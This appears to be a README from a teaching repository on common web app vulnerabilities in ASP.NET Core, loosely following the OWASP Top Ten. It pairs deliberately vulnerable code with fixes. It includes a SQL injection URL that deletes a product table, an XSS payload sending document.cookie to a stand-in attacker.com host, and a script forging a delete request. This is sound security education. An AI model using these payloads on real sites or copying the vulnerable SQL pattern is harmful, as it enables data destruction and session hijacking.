 # Typical web app security vulnerabilities
* [Injection](#injection)
* [Broken Authentication and Session Management](#broken-authentication-and-session-management)
* [Cross-Site Scripting (XSS)](#cross-site-scripting)
* [Broken Access Control](#broken-access-control)
* [Security Misconfiguration](#security-misconfiguration)
* [Sensitive Data Exposure](#sensitive-data-exposure)
* [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery)

## Injection
Injection flaws are very prevalent, particularly in legacy code. Injection vulnerabilities are often found in SQL, LDAP, XPath, or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages, and ORM queries.
Injection flaws are easy to discover when examining code. Scanners and fuzzers can help attackers find injection flaws.
Injection can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability, or denial of access. Injection can sometimes lead to complete host takeover.

### Protection
* use entity framework Linq Queries
* don't set params directly into SQL string

### Sql Injection sample
Scenario #1: An application uses untrusted data in the construction of the following vulnerable SQL call:

```var sql = "SELECT * FROM product WHERE sku='{sku}' LIMIT 1";```

Scenario #2: Similarly, an application’s blind trust in frameworks may result in queries that are still vulnerable, 
(e.g. EF Core FromSql Method):

```
SecurityWeakness.Infrastructure.SQL.NotSecureProductSqlRepository:

public Product GetSingleBySku(string sku)
{
    var sql = $"SELECT * FROM product WHERE sku='{sku}' LIMIT 1";
    return context.Products.FromSql(sql).ToArray().Single();
}
```

In both cases, the attacker modifies the ‘sku’ parameter value in their browser to send:

``` 
http://localhost:62384/NotSecureProducts/Product?sku=p2';DELETE from product;SELECT '1
```

This changes the meaning of both queries to delete all the records from the product table. More dangerous attacks could modify or delete data, or even invoke stored procedures.

### Secure sample
Rewrite code using Linq Query, or use parameterization for raw SQL queries 
```
SecurityWeakness.Infrastructure.SQL.SecureProductSqlRepository:
public Product GetSingleBySku(string sku)
{
    return context.Products.FromSql($"SELECT * FROM {TableName} WHERE sku={{0}} LIMIT 1", sku).ToArray().Single();
}
```

## Broken Authentication and Session Management
These types of weaknesses can allow an attacker to either capture or bypass the authentication methods that are used by a web application.

* User authentication credentials are not protected when stored.
* Predictable login credentials.
* Session IDs are exposed in the URL (e.g., URL rewriting).
* Session IDs are vulnerable to session fixation attacks.
* Session value does not timeout or does not get invalidated after logout.
* Session IDs are not rotated after successful login.
* Passwords, session IDs, and other credentials are sent over unencrypted connections.
The goal of an attack is to take over one or more accounts and for the attacker to get the same privileges as the attacked user.

### Protection
* Credentials should be protected: User authentication credentials should be protected when stored using hashing or encryption.
* Do not expose session ID in the URL: Session IDs should not be exposed in the URL (e.g., URL rewriting).
* Session IDs should timeout: User sessions or authentication tokens should be properly invalidated during logout.
* Recreate session IDs: Session IDs should be recreated after successful login.
* Do not send credentials over unencrypted connections: Passwords, session IDs, and other credentials should not be sent over unencrypted connections.
* Password length: Minimum password length should be at least eight (8) characters long. Combining this length with complexity makes a password difficult to guess using a brute force attack.
* Password complexity: Passwords should be a combination of alphanumeric characters. Alphanumeric characters consist of letters, numbers, punctuation marks, mathematical and other conventional symbols.
* Username/Password Enumeration: Authentication failure responses should not indicate which part of the authentication data was incorrect. For example, instead of "Invalid username" or "Invalid password", just use "Invalid username and/or password" for both. Error responses must be truly identical in both display and source code.
* Protection against brute force login: Enforce account disabling after an established number of invalid login attempts (e.g., five attempts is common). The account must be disabled for a period of time sufficient to discourage brute force guessing of credentials, but not so long as to allow for a denial-of-service attack to be performed.

## Cross-Site Scripting (XSS)
Cross Site Scripting (XSS) is a widespread vulnerability that affects many web applications. XSS attacks consist of injecting malicious client-side scripts into a website and using the website as a propagation method.
XSS is the most prevalent web application security flaw. XSS flaws occur when an application includes user supplied data in a page sent to the browser without properly validating or escaping that content. There are two different types of XSS flaws: 1) Stored and 2) Reflected, and each of these can occur on the a) Server or b) on the Client.

Detection of most Server XSS flaws is fairly easy via testing or code analysis. Client XSS is very difficult to identify.

Attackers can execute scripts in a victim’s browser to hijack user sessions, deface web sites, insert hostile content, redirect users, hijack the user’s browser using malware, etc.

### Protection
* protect web inputs with HTML sanitizers
* remove un secure htmltags (style,script etc) before save in database
* protect cookies with Secure and Http only attributes in http header

### Xss Attack sample
* Hijack a user’s session
The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:

```(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";```

The attacker modifies the 'CC' parameter in their browser to:

```'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.```

* **asp.net core** protect it cookie from this kind of vulnerability, to enable cookie for document.cookie you need set ``` options.Cookie.HttpOnly=false```
```
    services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.HttpOnly = true;
    });
```

This causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.
Note that attackers can also use XSS to defeat any automated CSRF defense the application might employ. See A8 for info on CSRF.

* Perform unauthorized activities
If the HTTP Only cookie attribute is set, we cannot steal the cookies through JavaScript. However, using the XSS attack, we can still perform unauthorized actions inside the application on behalf of the user.
```
  <script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:62384/NotSecureProducts/DeleteComment',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('sku=p1&productid=1&commentid=1');
</script>
```

* Phishing to steal user credentials
XSS can also be used to inject a form into the vulnerable page and use this form to collect user credentials. This type of attack is called phishing.

* Capture the key strokes by injecting a keylogger
In this attack scenario we will inject a JavaScript keylogger into the vulnerable web page and we will capture all the key strokes of the user within the current page.

First of all, we will create a separate JavaScript file and we will host it on the attacker controlled server. We need this file because the payload is too big to be inserted in the URL and we avoid encoding and escaping errors

## Broken Access Control
## Security Misconfiguration
## Sensitive Data Exposure
## Cross-Site Request Forgery (CSRF)
## Using Components with Known Vulnerabilities
Known vulnerabilities are vulnerabilities that were discovered in open source components and published in the NVD, security advisories or issue trackers. 
From the moment of publication , a vulnerability can be exploited by hackers who find the documentation. According to OWASP, the problem of using components with known vulnerabilities is highly prevalent

## Resources
* [OWASP .NET](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md)
* [ASP.NET Core Security](https://docs.microsoft.com/en-us/aspnet/core/security/?view=aspnetcore-2.2)
* [OWASP Top Ten 2017](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2017_Project)
* [Cross Site Scripting (XSS)](https://blog.sucuri.net/2019/01/owasp-top-10-security-risks-part-iv.html)
* [Cross Site Scripting (XSS) Asp net core](https://docs.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-2.2)
* [xss-attacks-practical-scenarios](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [HTTP only, Secure cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
* [broken-authentication-and-session-management](https://hdivsecurity.com/owasp-broken-authentication-and-session-management)

